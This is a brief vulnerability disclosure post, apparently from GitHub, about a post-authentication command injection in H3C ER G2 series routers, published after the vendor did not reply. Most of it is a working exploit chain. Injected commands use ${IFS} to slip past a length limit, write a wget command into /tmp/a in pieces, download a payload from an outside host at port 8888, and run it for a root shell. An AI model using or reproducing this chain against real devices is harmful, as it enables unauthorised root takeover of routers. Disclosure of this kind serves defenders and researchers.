

The bug affects the H3C ER G2 series routers.   
I reported the bug several months ago and H3C didn't reply me... SO...

## BUG
The bug is a post-cmdi, but need a trick to exploit it.   

The length of string to injection is limited and no curl cmd to use, so we can't use normal exploit way such as wget xxx and chmod xxx and then xxx.   
We can print the cmd to a file and then to execute it.
```
cmds = ["echo${IFS}-n${IFS}'wget${IFS'>>/tmp/a", 
        "echo${IFS}-n${IFS}'}-O${IFS}'>>/tmp/a",
        "echo${IFS}-n${IFS}'/tmp/x${I'>>/tmp/a",
        "echo${IFS}-n${IFS}'FS}http:/'>>/tmp/a",
        "echo${IFS}-n${IFS}'/192.168.'>>/tmp/a",
        "echo${IFS}'1.2:8888/a'>>/tmp/a",
        "/bin/sh${IFS}/tmp/a",
        "/bin/sh${IFS}/tmp/x"]
```
And you can get a shell with root-privilege.

